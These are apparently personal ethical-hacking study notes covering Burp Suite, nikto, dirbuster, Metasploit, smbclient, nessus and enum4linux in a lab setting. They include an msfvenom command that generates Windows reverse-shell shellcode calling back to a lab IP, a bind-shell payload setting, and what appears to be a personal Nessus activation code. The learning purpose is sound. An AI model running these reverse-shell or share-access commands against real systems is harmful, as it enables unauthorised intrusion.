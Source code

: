 ```yaml
---
tags:
- EH
MOC: Knowledge Base
---
```

[[_0000 Home|Home]] | [[_0001 Knowledge Base MOC|Back to Knowledge MOC]] | [[EH Ethical Hacking index|Back to index]]
#### Burp suite
- Burp suite is a web proxy with its own cert allowing it to see TLS encrypted data
- To get started, you need to start burp suite, and a browser (preferably firefox) and go to the browser settings
	- Add a proxy that runs on localhost and port 8080
	- Visit `https://burp/` and download the CA Certificate
	- Import the certificate to firefox via it's privacy and security tab, then certificates, Authorities 
- Burp Tabs
	- Proxy
		- Allows you to turn on intercept to see and manipulate each request and response that burp is intercepting before forwarding it to its destination
	- Target
		- Shows you all the pages discovered from all the traffic that got intercepted by the proxy
		-  The target tab doesn't always pickup all traffic right away and multiple refreshes may be required
		- Target allows you to also set a scope as to what should be intercepted
	- Repeater
		- The Repeater shows you your response to a request in real time, and allows you to modify it before it's sent
	- Intruder
		- You can highlight and add parameters
			- Example: email and password if you're logging into a website
		- You can select different **attack types**
			- **Sniper** is the most common and uses one parameter ^837b27
		- You can use the **pitchfork** attack type with multiple params ^cbb090
			- The pitchfork attack takes in lists of data, such as a list of usernames and a list of passwords
- You can right click an intercepted packet from any tab, and send it to other tabs like the Repeater 
#### nikto
- Web vulnerability scanning tool
- Basic syntax: `nikto -h http(s)://ip_address`
- Can be blocked if the application has good security/firewall
#### dirbuster
- Run with `dirbuster &` to keep it running in the background
- Provide it with a URL + port. E.g `http://192.168.57.4:80/`
- You need to pick a wordlist file. 
	- On kali, you can browse to `/usr/share/wordlists/dirbuster/` and pick a wordlist file from the ones provided
	- Remember that buster tools like dirbuster and gobuster rely on wordlists with well-known directory names such as http://website/admin to verify which directories are accessible
- You can also specify file extensions
	- Apache uses .php
	- Microsoft websites (IAS) use .asp and .aspx
	- You can also add other extensions such as (.txt .zip .rar .pdf .docx), although that will increase the search time
- An example full path with file extensions would be http://website/admin.php
- You can view results in a list or tree view, and interact with pages to view them in the browser while the scan is still active
#### dirb
#### gobuster
#### Metasploit
- An exploitation framework that can also do enumeration and more
- Typing a `search` with a word like `smb` into metasploit will show all the available tools it has for it
- The name of the tool will start with its category, e.g 'auxiliary' which is meant for enumeration, followed by what it does exactly
- You can then say `use` and the name or number of the tool that you want to use
- Typing info will show you `info` about the tool and `options` will show you available usage options
	-  ![Payload Options](assets/Screenshot_2025-09-04_16-24-56.png)
- Tools will normally require you `set` an RHOST(S) which is the target(s) of your attack
	- You can set pretty much everything in general such as the LHOST, ports, and the payload `set payload linux/x86/shell_bind_tcp`
- Once your options are set you can then `run` or `exploit` to use the tool
- Typing `options` after a failed exploitation attempt may provide you with payload options
- This commands `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.57.4 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"` is used during [[EH Buffer Overflow Steps]] at the [[EH Buffer Overflow Steps#^0dee88|shellcode generation]] step using the msfvenom tool from metasploit to gain reverse shell access to the target windows machine
	- This is a reverse shell attack, so we need to send our own machine's IP and port to the target.
	- Adding an `EXITFUNC` makes the attack more stable
	- `-f`is the coding language we generate the shellcode with
	- `-a`is our architecture
	- `-b`is for bad characters that should be used which we found here [[EH Buffer Overflow Steps#^d6154c|Buffer Overflow stes#Finding Bad Characters]]
	- ![Generated ShellCode](assets/Screenshot_2025-09-13_05-14-49.png)
#### smbclient
- Not exactly a hacking tool, but it can connect to an smbserver's file share
- If you can anonymously connect to an smbserver you can get an idea of the network's file structure, and may find important files
- `smbclient -L \\\\192.168.57.4\\` will list all files
- If you find a file `smbclient \\\\192.168.57.4\\ADMIN$` will attempt to connect to the file
#### nessus
- A vulnerability scanner tool
- Search for nessus download on google, then download and install the relevant file
- Start nessus by typing `sudo systemctl start nessusd.service` or `sudo /etc/init.d/nessusd start`
- Go to https://localhost:8834 to use nessus
- My activation code that I never got to use NNAH-LFFS-PZXP-KTB5-P38X
- Works on private networks only with the free edition
- Don't rely on nessus's reported vulnerability on your report, rather, confirm it, and take a screenshot of the actual vulnerability
#### enum4linux
- A powerful enumeration tool
- Give it an ip and it will do the rest